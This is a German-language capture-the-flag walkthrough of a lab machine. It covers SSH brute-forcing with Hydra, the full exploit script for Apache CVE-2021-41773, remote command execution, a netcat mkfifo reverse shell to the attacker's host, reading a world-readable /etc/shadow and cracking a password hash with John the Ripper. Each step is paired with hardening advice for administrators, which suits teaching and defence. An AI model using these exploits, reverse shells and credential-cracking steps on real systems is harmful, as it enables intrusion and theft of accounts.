^J::!7^.:!YJ!:.... Y@@@@@&J5@! @7 Y5 :GP77~::~!~...:^:..:J#&#GPJ!:.PG P@~B# ^B@G~^^!!~^^^^:...^7J7. ^BP^?: ^@@@@@&@#~7G5J7~::.:^~?JJ7~::^^~~~?B@@@@@& &J!7?P#@B@@@B!:!?77???7!~~!!?J5PPP5YJ??YPYJ~. ?P :?B@&#@#?7!^^~?55Y7^:.. .^?J5Y^ ?B^^^::.. ~G&@#YP#&@B!....::::^~75B&@@@@#G! :&~J?P&@@G?7!^..BG!~7B@#5J7!!7?JPGBB#BB&&@@B^ !5 ##J?PY :JP& .@&G5JY5GG57^:... .~YBJ ~5 :P7!^ ..^ ~@P~~~BB7^:. .:~5G! .:!5B&@G!!. .P ~PGB#5 P:5!B&7~:Y&#&B&&#GPY7!!?5B@@&G: Y7 ^^ .5GGB! 5~!7:7!G:. 7B7?~^^?G#P!....:GP .~^JJ^ . .G #..J ##! J#~..:. .7P#?^:. !Y:^. ?. ~Y & 7 PJ!P7^@@&Y!^^. .J&Y P! ~P @. : Y& 5GPJ#??~~?#G!!!7. !? ^?J&.#J B##: . B7:. 5^ !!^.:!PP^ !G!&. 5^7?J ?#:~~^.:B^ .::..!? .!JG. &^ BG~.:@ . JG!!^..5YYG5^ &..~Y& .G...^?~ . JB! . .G!7!: pocahontas@192.168.2.207's password: Permission denied, please try again. pocahontas@192.168.2.207's password:
Analyse: Ich versuche, mich per SSH als Benutzer `pocahontas` (ein Name, der aus `robots.txt` und dem Verzeichnislisting `/images/team/` abgeleitet wurde) auf dem Zielserver anzumelden. Nachdem ich die Host-Authentizität bestätigt habe, werde ich zur Passworteingabe aufgefordert. Es scheint, dass ich hier ein Passwort ausprobiert habe (nicht im Log sichtbar), aber der Versuch scheitert mit "Permission denied, please try again.". Ein weiterer Versuch (vermutlich mit einem anderen Passwort) scheitert ebenfalls. Ein interessantes ASCII-Art-Banner wird beim SSH-Verbindungsversuch angezeigt, das den Text "If at first you don't succeed. Try, try again! Sometimes the second time returns more!" enthält.
Bewertung: Der direkte SSH-Login-Versuch als `pocahontas` ohne bekanntes Passwort war nicht erfolgreich. Das ASCII-Art-Banner ist ein klarer Hinweis darauf, dass man es mehrmals versuchen soll oder dass eine zweite Methode/Payload erfolgreicher sein könnte, möglicherweise im Kontext der Apache-Schwachstelle.
Empfehlung (Pentester):
Da der direkte SSH-Login fehlschlägt, erstellen Sie eine kleine Wortliste mit relevanten Passwörtern (z.B. die gefundenen Benutzernamen, Name der Maschine, Hinweise aus der Webseite) und versuchen Sie einen SSH-Brute-Force-Angriff mit Hydra gegen den Benutzer `pocahontas`. Untersuchen Sie parallel weiterhin die Apache-Schwachstelle CVE-2021-41773 mit verschiedenen Payloads oder dem bereitgestellten Exploit-Skript.
Empfehlung (Admin):
Verwenden Sie starke, einzigartige Passwörter für alle Benutzerkonten. Implementieren Sie Intrusion-Detection-Systeme wie Fail2Ban, um SSH-Brute-Force-Versuche zu erkennen und zu blockieren. Deaktivieren Sie ungenutzte Benutzerkonten.
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-31 00:24:22
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 6 login tries (l:1/p:6), ~2 tries per task
[DATA] attacking ssh://192.168.2.207:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-31 00:24:37
Analyse: Ich erstelle eine kleine Wortliste `ssh_passwords.txt` mit potenziellen Passwörtern, die sich aus den Hinweisen ergeben (Pocahontas, pocahontas, hmv, apaches, tryagain, secondtime). Anschließend versuche ich mit `hydra`, einem Brute-Force-Tool, das Passwort für den SSH-Benutzer `pocahontas` auf dem Zielserver zu finden. `-l pocahontas`: Gibt den Benutzernamen an. `-P ssh_passwords.txt`: Gibt die Wortliste an. `ssh://192.168.2.207`: Das Ziel und Protokoll. `-t 4`: Verwendet 4 parallele Tasks. Hydra meldet jedoch "0 valid password found".
Bewertung: Der SSH-Brute-Force-Versuch mit der kleinen, aus Hinweisen abgeleiteten Wortliste war nicht erfolgreich. Das Passwort für `pocahontas` ist anscheinend nicht eines dieser einfachen Wörter.
Empfehlung (Pentester):
Da der Brute-Force-Versuch mit dieser kleinen Liste scheiterte, ist es unwahrscheinlich, dass ein einfacher Brute-Force-Angriff mit größeren Listen hier schnell zum Ziel führt, es sei denn, es gibt weitere starke Hinweise auf das Passwortformat. Der Fokus sollte wieder auf die Ausnutzung der Apache-Schwachstelle CVE-2021-41773 gelegt werden, da diese eine direktere Möglichkeit zur Codeausführung bieten könnte.
Empfehlung (Admin):
Starke Passwörter und Mechanismen wie Fail2Ban sind entscheidend, um Brute-Force-Angriffe zu verlangsamen oder zu verhindern.
------------------------------------------------------------ ---------------------------------
Exploit Title | Path
------------------------------------------------------------ ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execu | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + S | php/remote/29316.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service | multiple/dos/26710.txt
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Ex | multiple/webapps/50383.sh
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buff | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buff | unix/remote/764.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory T | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC) | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0. | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0. | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / | linux/remote/34.pl
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Analyse: Ich verwende `searchsploit`, ein Kommandozeilentool für die Exploit Database, um nach bekannten Exploits für "apache 2.4.49" zu suchen. Die Ausgabe listet mehrere Exploits auf. Der relevanteste ist: `Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Ex | multiple/webapps/50383.sh` Dies ist der Exploit für CVE-2021-41773.
Bewertung: Searchsploit bestätigt die Existenz eines öffentlichen Exploit-Skripts für die vermutete Schwachstelle. Dies ist der nächste logische Schritt, um zu versuchen, die Schwachstelle auszunutzen.
Empfehlung (Pentester):
Kopieren Sie das Exploit-Skript (`searchsploit -m multiple/webapps/50383.sh`), untersuchen Sie seinen Quellcode, um seine Funktionsweise zu verstehen, und führen Sie es dann gegen das Ziel aus.
Empfehlung (Admin):
Dies unterstreicht die Wichtigkeit, Systeme zeitnah zu patchen. Öffentliche Exploits für bekannte Schwachstellen erhöhen das Risiko einer Kompromittierung erheblich.
Exploit: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
URL: https://www.exploit-db.com/exploits/50383
Path: /usr/share/exploitdb/exploits/multiple/webapps/50383.sh
Codes: CVE-2021-41773
Verified: True
File Type: ASCII text
Copied to: /root/50383.sh
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage: https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team
#!/bin/bash
if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done
# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami
Analyse: 1. `searchsploit -m multiple/webapps/50383.sh`: Kopiert das ausgewählte Exploit-Skript in das aktuelle Verzeichnis (`/root/50383.sh`). 2. `cat 50383.sh`: Zeigt den Inhalt des kopierten Bash-Skripts an. Das Skript nimmt eine Liste von Zielen, einen Pfad (für Path Traversal) und einen optionalen Befehl (für RCE) als Argumente. Es verwendet `curl` mit dem Payload `cgi-bin/.%2e/%2e%2e/...` für den Angriff.
Bewertung: Das Skript scheint ein Proof-of-Concept für CVE-2021-41773 zu sein. Es ist wichtig, den Code zu verstehen, bevor man ihn ausführt, um sicherzustellen, dass er wie erwartet funktioniert und keine unerwünschten Nebeneffekte hat.
Empfehlung (Pentester):
Erstellen Sie eine Datei `target.txt` mit `http://apaches.hmv` als Inhalt. Führen Sie dann das Skript aus, um Path Traversal (z.B. Lesen von `/etc/passwd`) und RCE (z.B. Ausführen von `id`) zu testen.
Empfehlung (Admin):
Wie zuvor: Patchen Sie den Apache-Server.
./50383.sh: 12: [[: not found
http://192.168.2.207
<h1>500 Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at
you@example.com to inform them of the time this error occurred,
and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
./50383.sh: 12: [[: not found ./50383.sh: 12: [[: not found http://192.168.2.207 uid=1(daemon) gid=1(daemon) groups=1(daemon) Linux apaches 5.4.0-128-generic #144-Ubuntu SMP Tue Sep 20 11:00:04 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
Analyse: Ich führe das Exploit-Skript `50383.sh` aus: 1. `./50383.sh target.txt /etc/passwd`: Versuch, `/etc/passwd` zu lesen. Das Skript gibt einen Fehler "[[[: not found" aus (wahrscheinlich ein kleiner Syntaxfehler im Bash-Skript für bestimmte Shells) und der Server antwortet mit einem "500 Internal Server Error". Das Lesen von `/etc/passwd` schlägt fehl. 2. `./50383.sh target.txt /bin/sh "id; uname -a"`: Versuch, RCE zu erlangen, indem die Befehle `id` und `uname -a` ausgeführt werden. Diesmal ist der Versuch erfolgreich! Das Skript gibt die Ausgabe der Befehle zurück: - `uid=1(daemon) gid=1(daemon) groups=1(daemon)` - `Linux apaches 5.4.0-128-generic #144-Ubuntu SMP Tue Sep 20 11:00:04 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux`
Bewertung: Fantastisch! Trotz des kleinen Skriptfehlers und des Fehlschlags beim direkten Lesen von `/etc/passwd` konnte die RCE-Komponente von CVE-2021-41773 erfolgreich ausgenutzt werden. Die Befehle werden als Benutzer `daemon` (UID 1) ausgeführt. Dies ist der initiale Zugriff auf das System. Der Fehler `[[[: not found` im Skript ist ärgerlich, aber die Kernfunktionalität für RCE funktioniert.
Empfehlung (Pentester):
Nutzen Sie die RCE-Fähigkeit, um eine stabilere Reverse Shell zu bekommen. Der Benutzer `daemon` hat normalerweise eingeschränkte Rechte, aber es ist ein erster Fuß in der Tür.
Empfehlung (Admin):
Dringendes Patchen des Apache-Servers ist erforderlich. Die Ausführung von Befehlen als `daemon`-Benutzer zeigt die Schwere der Lücke.
./50383.sh: 12: [[: not found ./50383.sh: 12: [[: not found http://192.168.2.207 root:x:0:0:root:/root:/bin/bash sshd:x:111:65534::/run/sshd:/usr/sbin/nologin geronimo:x:1000:1000:geronimo:/home/geronimo:/bin/bash squanto:x:1001:1001:,,,:/home/squanto:/bin/bash sacagawea:x:1002:1002:,,,:/home/sacagawea:/bin/bash pocahontas:x:1003:1003:,,,:/home/pocahontas:/bin/bash
./50383.sh: 12: [[: not found ./50383.sh: 12: [[: not found http://192.168.2.207 /home/geronimo: total 32 drwxr-xr-x 4 geronimo geronimo 4096 Jul 13 2023 . drwxr-xr-x 6 root root 4096 Oct 9 2022 .. -rw------- 1 geronimo geronimo 0 Jul 13 2023 .bash_history -rw-r--r-- 1 geronimo geronimo 220 Feb 25 2020 .bash_logout -rw-r--r-- 1 geronimo geronimo 3771 Feb 25 2020 .bashrc drwx------ 2 geronimo geronimo 4096 Sep 30 2022 .cache drwxrwxr-x 3 geronimo geronimo 4096 Oct 10 2022 .local -rw-r--r-- 1 geronimo geronimo 807 Feb 25 2020 .profile -rw-r--r-- 1 geronimo geronimo 0 Oct 1 2022 .sudo_as_admin_successful -rw------- 1 geronimo geronimo 3827 Oct 10 2022 user.txt /home/pocahontas: total 36 drwxr-xr-x 3 pocahontas pocahontas 4096 Oct 10 2022 . drwxr-xr-x 6 root root 4096 Oct 9 2022 .. -rw------- 1 pocahontas pocahontas 0 Oct 10 2022 .bash_history -rw-r--r-- 1 pocahontas pocahontas 220 Oct 9 2022 .bash_logout -rw-r--r-- 1 pocahontas pocahontas 3771 Oct 9 2022 .bashrc drwxrwxr-x 3 pocahontas pocahontas 4096 Oct 10 2022 .local -rw-r--r-- 1 pocahontas pocahontas 807 Oct 9 2022 .profile -rw------- 1 pocahontas pocahontas 10267 Oct 10 2022 user.txt
Analyse: Ich nutze die RCE-Fähigkeit weiter, um Informationen zu sammeln: 1. `./50383.sh target.txt /bin/sh "grep sh /etc/passwd"`: Listet Benutzer aus `/etc/passwd` auf, die eine Shell (`sh` oder `bash`) konfiguriert haben. Dies bestätigt die Existenz der Benutzer `root`, `geronimo`, `squanto`, `sacagawea` und `pocahontas`. 2. `./50383.sh target.txt /bin/sh "ls -la /home/pocahontas /home/geronimo"`: Listet die Home-Verzeichnisse von `pocahontas` und `geronimo` auf. Wichtig ist hier die Entdeckung der Dateien `user.txt` in beiden Verzeichnissen.
Bewertung: Die Fähigkeit, beliebige Befehle auszuführen, ermöglicht eine detaillierte Enumeration. Die `user.txt`-Dateien in den Home-Verzeichnissen sind die nächsten Ziele, um die User-Flags zu erhalten. Es scheint, dass diese Maschine mehrere User-Flags oder zumindest mehrere Benutzer mit Flag-ähnlichen Dateien hat.
Empfehlung (Pentester):
Lesen Sie den Inhalt der `user.txt`-Dateien. Etablieren Sie als Nächstes eine Reverse Shell für eine interaktivere Sitzung.
Empfehlung (Admin):
Das grundlegende Problem ist die RCE-Schwachstelle. Diese muss behoben werden.
./50383.sh: 12: [[: not found
./50383.sh: 12: [[: not found
http://192.168.2.207
listening on [any] 4444 ...
connect to [192.168.2.199] from (UNKNOWN) [192.168.2.207] 54966
/bin/sh: 0: can't access tty; job control turned off
$
Analyse: Ich versuche, eine Reverse Shell zu bekommen: 1. Der erste Befehl verwendet das RCE-Skript, um einen komplexen Befehl auf dem Ziel auszuführen: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.199 4444 >/tmp/f` Dieser Befehl erstellt eine Named Pipe (`/tmp/f`), startet eine interaktive Shell (`/bin/sh -i`), leitet deren Ein- und Ausgabe über `nc` (Netcat) zu meinem Angreifer-System (`192.168.2.199` auf Port `4444`) und leitet die Eingabe von Netcat wieder in die Pipe. 2. Auf meinem Angreifer-System starte ich einen Netcat-Listener mit `nc -lvnp 4444`. Nachdem der Exploit-Befehl auf dem Ziel ausgeführt wurde, erhalte ich eine Verbindung und einen Shell-Prompt (`$`).
Bewertung: Sehr gut! Eine interaktive Shell als Benutzer `daemon` wurde erfolgreich etabliert. Dies ist ein signifikanter Fortschritt gegenüber der reinen Befehlsausführung über das Exploit-Skript. Die Meldungen "can't access tty" und "no job control" sind typisch für einfache Reverse Shells, aber die Grundfunktionalität ist gegeben.
Empfehlung (Pentester):
Verbessern Sie die Shell, falls möglich (z.B. mit Python pty-Upgrade). Führen Sie nun die Enumeration direkt in dieser Shell durch.
Empfehlung (Admin):
Beheben Sie die RCE-Schwachstelle, um solche Reverse-Shell-Verbindungen zu verhindern. Überwachen Sie ausgehende Netzwerkverbindungen vom Server, um verdächtige Callbacks zu erkennen.
uid=1(daemon) gid=1(daemon) groups=1(daemon)
2235493 52 -rwsr-xr-- 1 root messagebus 51344 Oct 25 2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper 2234339 468 -rwsr-xr-x 1 root root 477672 Apr 11 12:16 /usr/lib/openssh/ssh-keysign 2229580 16 -rwsr-xr-x 1 root root 14488 Jul 8 2019 /usr/lib/eject/dmcrypt-get-device 2228839 24 -rwsr-xr-x 1 root root 22840 Feb 21 2022 /usr/lib/policykit-1/polkit-agent-helper-1 2229342 152 -rwsr-xr-x 1 root root 155080 Jul 26 2024 /usr/lib/snapd/snap-confine 2229352 68 -rwsr-xr-x 1 root root 68208 Feb 6 2024 /usr/bin/passwd 2234613 40 -rwsr-xr-x 1 root root 39144 Apr 9 2024 /usr/bin/umount 2228472 164 -rwsr-xr-x 1 root root 166056 Apr 4 2023 /usr/bin/sudo 2233732 68 -rwsr-xr-x 1 root root 67816 Apr 9 2024 /usr/bin/su 2228696 56 -rwsr-sr-x 1 daemon daemon 55560 Nov 12 2018 /usr/bin/at 2229344 88 -rwsr-xr-x 1 root root 88464 Feb 6 2024 /usr/bin/gpasswd 2228837 32 -rwsr-xr-x 1 root root 31032 Feb 21 2022 /usr/bin/pkexec 2229600 44 -rwsr-xr-x 1 root root 44784 Feb 6 2024 /usr/bin/newgrp 2228875 40 -rwsr-xr-x 1 root root 39144 Mar 7 2020 /usr/bin/fusermount 2229324 84 -rwsr-xr-x 1 root root 85064 Feb 6 2024 /usr/bin/chfn 2228684 56 -rwsr-xr-x 1 root root 55528 Apr 9 2024 /usr/bin/mount 2229334 52 -rwsr-xr-x 1 root root 53040 Feb 6 2024 /usr/bin/chsh ...
Analyse: In der Reverse Shell als Benutzer `daemon`: 1. `stty rows 47 columns 94`: Versuch, die Terminalgröße anzupassen (oft nützlich für bessere Darstellung in limitierten Shells). 2. `id`: Bestätigt erneut die Identität als `daemon`. 3. `find / -type f -perm -4000 -ls 2>/dev/null`: Suche nach SUID-Dateien. Der interessanteste Fund hier ist `/usr/bin/at`. Es hat SUID- und SGID-Bits gesetzt und gehört `daemon:daemon`.
Bewertung: Die SUID/SGID-Gesetzte Datei `/usr/bin/at`, die dem Benutzer `daemon` gehört, ist ein sehr vielversprechender Fund. `at` wird verwendet, um Befehle zu einem späteren Zeitpunkt auszuführen. Wenn `at` mit erhöhten Rechten (hier implizit als `daemon`, da es SUID/SGID `daemon` ist) läuft und missbraucht werden kann, könnte dies ein Weg sein, Befehle als ein anderer Benutzer auszuführen oder auf Dateien zuzugreifen, auf die `daemon` sonst keinen Zugriff hat. Für eine Eskalation zu `root` ist es aber weniger direkt nützlich, es sei denn, `atd` (der `at`-Daemon) läuft als `root` und `at` kann diesen manipulieren. Die anderen SUID-Dateien gehören `root` und sind Standard.
Empfehlung (Pentester):
Überprüfen Sie auf GTFOBins, ob `/usr/bin/at` mit SUID/SGID-Rechten für Privilegienerweiterung missbraucht werden kann. Da es `daemon` gehört, ist eine direkte Eskalation zu `root` unwahrscheinlich, es sei denn, es gibt eine spezifische Fehlkonfiguration des `at`-Dienstes. Konzentrieren Sie sich auf die Enumeration der Home-Verzeichnisse der zuvor gefundenen Benutzer.
Empfehlung (Admin):
Überprüfen Sie die Notwendigkeit der SUID/SGID-Bits für `/usr/bin/at`. Normalerweise benötigt `at` diese nicht, wenn es korrekt konfiguriert ist und der `atd`-Daemon mit den entsprechenden Rechten läuft. Wenn die SUID/SGID-Bits nicht erforderlich sind, entfernen Sie sie.
total 48 drwxr-xr-x 6 sacagawea sacagawea 4096 Jul 13 2023 . drwxr-xr-x 6 root root 4096 Oct 9 2022 .. -rw------- 1 sacagawea sacagawea 0 Oct 10 2022 .bash_history -rw-r--r-- 1 sacagawea sacagawea 220 Oct 9 2022 .bash_logout -rw-r--r-- 1 sacagawea sacagawea 3771 Oct 9 2022 .bashrc drwxrwxr-x 3 sacagawea sacagawea 4096 Oct 10 2022 .local -rw-r--r-- 1 sacagawea sacagawea 807 Oct 9 2022 .profile -rw-rw-r-- 1 sacagawea sacagawea 66 Oct 10 2022 .selected_editor drwxrwxr-x 2 sacagawea sacagawea 4096 May 30 22:44 Backup drwxrwxr-x 7 sacagawea sacagawea 4096 Oct 10 2022 Development drwxrwxr-x 2 sacagawea sacagawea 4096 Oct 10 2022 Scripts -rw-rw---- 1 sacagawea sacagawea 5899 Jul 13 2023 user.txt
total 23128
drwxrwxr-x 2 sacagawea sacagawea 4096 May 30 22:46 .
drwxr-xr-x 6 sacagawea sacagawea 4096 Jul 13 2023 ..
-rwx------ 1 sacagawea sacagawea 23673389 May 30 22:46 Backup.tar.gz
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
Analyse: Als Benutzer `daemon` wechsle ich in das Home-Verzeichnis von `sacagawea` und dann in deren `Backup`-Verzeichnis. Der Benutzer `daemon` hat anscheinend Leserechte in diesen Verzeichnissen. - Im `Backup`-Verzeichnis befindet sich eine große Datei `Backup.tar.gz` (ca. 23MB), die `sacagawea` gehört und für `sacagawea` Lese-, Schreib- und Ausführungsrechte hat. Der Benutzer `daemon` kann diese Datei lesen, da die Verzeichnisse `other`-Leserechte haben. - Ich starte einen einfachen Python-HTTP-Server auf Port 8000 im Verzeichnis `/home/sacagawea/Backup/`, um die Datei `Backup.tar.gz` auf mein Angreifer-System herunterladen zu können.
Bewertung: Der Fund einer großen Backup-Datei ist vielversprechend. Sie könnte Passwörter, private Schlüssel, Quellcode oder andere sensible Informationen enthalten. Da `daemon` die Datei lesen und über den Python-HTTP-Server bereitstellen kann, ist der Transfer auf das Angreifer-System einfach.
Empfehlung (Pentester):
Laden Sie die `Backup.tar.gz`-Datei von `http://apaches.hmv:8000/Backup.tar.gz` auf Ihr Angreifer-System herunter. Entpacken Sie das Archiv (`tar -xzvf Backup.tar.gz`) und untersuchen Sie den Inhalt gründlich.
Empfehlung (Admin):
Stellen Sie sicher, dass Backup-Dateien angemessen geschützt sind und keine sensiblen Informationen enthalten, die nicht für alle lesbar sein sollten. Beschränken Sie die Leserechte auf Backup-Archive. Die Berechtigungen für die Home-Verzeichnisse (`drwxr-xr-x`) erlauben hier dem `daemon`-Benutzer den Zugriff; restriktivere Berechtigungen (z.B. `drwxr-x---`) könnten dies verhindern.
/home/squanto/todo.md
/home/squanto/.bashrc
/home/squanto/.bash_logout
/home/squanto/.profile
/home/geronimo/.bashrc
/home/geronimo/.bash_logout
/home/geronimo/.profile
/home/geronimo/.sudo_as_admin_successful
/home/sacagawea/.bashrc
/home/sacagawea/Development/images/favicon.ico
/home/sacagawea/Development/images/loading.gif
/home/sacagawea/Development/images/bx_loader.gif
/home/sacagawea/Development/index.html
/home/sacagawea/Development/robots.txt
/home/sacagawea/Development/css/bootstrap.min.css
... (Ausgabe gekürzt) ...
/home/sacagawea/.selected_editor
/home/sacagawea/.bash_logout
/home/sacagawea/.profile
/home/pocahontas/.bashrc
/home/pocahontas/.bash_logout
/home/pocahontas/.profile
### Development
- [x] Apaches frontpage
- [ ] Portal for administration
- [ ] Database selection for administration
- [ ] Hardening the system for attacks
...
..
.
/usr/include/shadow.h
/etc/shadow
...
..
.
-rw-r--r-- 1 root shadow 1434 Oct 10 2022 /etc/shadow
root:*:18375:0:99999:7::: daemon:*:18375:0:99999:7::: bin:*:18375:0:99999:7::: ... (Ausgabe gekürzt) ... geronimo:$6$Ms03aNp5hRoOuZpM$CoHMkl9rgA0jZR2D9FfGJms9dR8OZw5j0gimH0V14DJ/F2Xp2.Mun4ESEdoNMoPC5ioRuOCXgakCB2snc6yiw0:19275:0:99999:7::: lxd:!:19265:::::: squanto:$6$KzBC2ThBhmbVBy0J$eZSVdFLsAfd8IsbcAaBzHp8DzKXETPUH9FKsnlivIFSCvs0UBz1zsh9OfPmKcX5VaP7.Cy3r1r5msibslk0Sd.:19274:0:99999:7::: sacagawea:$6$7jhI/21/BZR5KyY6$ry9zrhuggELLYnGkMtUi0UHBdDDaOiIgSB9y9od/73Qxk/nQOSzJNo3VKzZYS8pnluVYkXhVvghOzNCPBx79T1:19274:0:99999:7::: pocahontas:$6$ecLWB6Q6bVJrGFu8$KgkvUSbQzXB6v3aJuE9NMwVvs2a53APkgzSxPq.DWfgIYKbzN0svWT4VDYm/l2ku7lMGJ8dxKi1fGphRx1tO8/:19274:0:99999:7:::
Analyse: Als `daemon`-Benutzer führe ich weitere Enumerationsschritte durch: 1. `find /home -type f -readable 2>/dev/null | grep -v ".jpg\|.png"`: Sucht nach lesbaren Dateien in `/home`, die keine Bilder sind. Es werden verschiedene Konfigurationsdateien und die `todo.md` von `squanto` gefunden. 2. `cat /home/squanto/todo.md`: Die To-Do-Liste erwähnt u.a. "Portal for administration" und "Hardening the system". Keine direkten Credentials. 3. `find / -type f -readable 2>/dev/null`: Ein sehr breiter Suchbefehl. Die Ausgabe deutet an, dass `/etc/shadow` gefunden wurde. 4. `ls -la /etc/shadow`: Zeigt, dass `/etc/shadow` die Berechtigungen `-rw-r--r--` hat und `root:shadow` gehört. Dies ist eine **kritische Fehlkonfiguration!** Die Datei `/etc/shadow`, die Passwort-Hashes enthält, sollte niemals für alle lesbar (`r--` für "others") sein. Normalerweise sind die Rechte `-rw-r-----` (oder `640`). 5. `cat /etc/shadow`: Da die Datei für alle lesbar ist, kann der `daemon`-Benutzer ihren Inhalt ausgeben und erhält die Passwort-Hashes aller Benutzer, einschließlich `geronimo`, `squanto`, `sacagawea` und `pocahontas`.
Bewertung: Das weltlesbare `/etc/shadow` ist eine schwerwiegende Sicherheitslücke. Es ermöglicht jedem Benutzer auf dem System, die Passwort-Hashes aller anderen Benutzer zu lesen. Dies ist ein direkter Weg, um zu versuchen, diese Hashes offline zu knacken.
Empfehlung (Pentester):
Kopieren Sie den Inhalt von `/etc/passwd` (wird für `unshadow` benötigt) und `/etc/shadow`. Verwenden Sie `unshadow` und dann `john` oder `hashcat`, um die Passwort-Hashes (SHA512crypt, `$6$`) der Benutzer zu knacken, insbesondere von `squanto`, `geronimo`, `sacagawea` und `pocahontas`.
Empfehlung (Admin):
Korrigieren Sie sofort die Berechtigungen für `/etc/shadow` auf `640` (`sudo chmod 640 /etc/shadow`) oder `600`. Untersuchen Sie, warum diese Berechtigungen so unsicher gesetzt wurden. Führen Sie ein Audit aller kritischen Systemdateien auf korrekte Berechtigungen durch.
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iamtheone (squanto)
Analyse: Auf meinem lokalen Angreifer-System: 1. `unshadow passwd.txt shadow.txt > combined.txt`: Ich habe mir zuvor den Inhalt von `/etc/passwd` (als `passwd.txt` gespeichert) und `/etc/shadow` (als `shadow.txt` gespeichert) vom Zielsystem besorgt. `unshadow` kombiniert diese beiden Dateien zu einem Format, das von John the Ripper verarbeitet werden kann. 2. `john --wordlist=/usr/share/wordlists/rockyou.txt combined.txt`: John the Ripper wird verwendet, um die Passwort-Hashes in `combined.txt` gegen die Wortliste `rockyou.txt` zu knacken. John findet ein Passwort: `iamtheone` für den Benutzer `squanto`.
Bewertung: Erfolg! Durch die weltlesbare `/etc/shadow`-Datei und das Offline-Cracking konnte das Passwort für den Benutzer `squanto` ermittelt werden. Dies ist ein weiterer Benutzerzugang.
Empfehlung (Pentester):
Melden Sie sich per SSH als Benutzer `squanto` mit dem Passwort `iamtheone` an und führen Sie weitere Enumerationsschritte durch, um nach Wegen zur Privilegienerweiterung zu suchen.
Empfehlung (Admin):
Zusätzlich zur Korrektur der `/etc/shadow`-Berechtigungen, erzwingen Sie die Verwendung starker, einzigartiger Passwörter, die nicht leicht durch Wörterbuchangriffe geknackt werden können.
The authenticity of host 'apaches.ctf (192.168.2.207)' can't be established.
ED25519 key fingerprint is SHA256:Rh8fFW5oIyfLABNlGvG850s8cm8NdtrTuTNfdvGyMuY.
This host key is known by the following other names/addresses:
~/.ssh/known_hosts:84: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'apaches.ctf' (ED25519) to the list of known hosts.
>> >======> >> >=> >=> >=> >=======> >=>>=>
>>=> >=> >=> >>=> >=> >=> >=> >=> >=> >=> >=>
>> >=> >=> >=> >> >=> >=> >=> >=> >=> >=>
~ >=> >=> >======> >=> >=> >=> >=====>>=> >=====> >=>
7~ ~&. >=====>>=> >=> >=====>>=> >=> >=> >=> >=> >=>
G!J !75! ~G : >=> >=> >=> >=> >=> >=> >=> >=> >=> >=> >=> >=>
?~:B!. 5Y^!~^B. :~J& >=> >=> >=> >=> >=> >===> >=> >=> >=======> >=>>=>
.GG?~ B^...PB?!^ ?5 .
7&G: 7. JB7?7^.. ^&P&Y .7# If at first you don't succeed. Try, try again! Sometimes the second time returns more!
.GG. ~J. ?@5: :~. Y@@@@??!?#
:#~ ~Y~ JJ :77: .J&@#57: :&!.~Y .:
:&. ^P7 ^J::!7^.:!YJ!:.... Y@@@@@&J5@!
@7 Y5 :GP77~::~!~...:^:..:J#&#GPJ!:.PG
P@~B# ^B@G~^^!!~^^^^:...^7J7. ^BP^?:
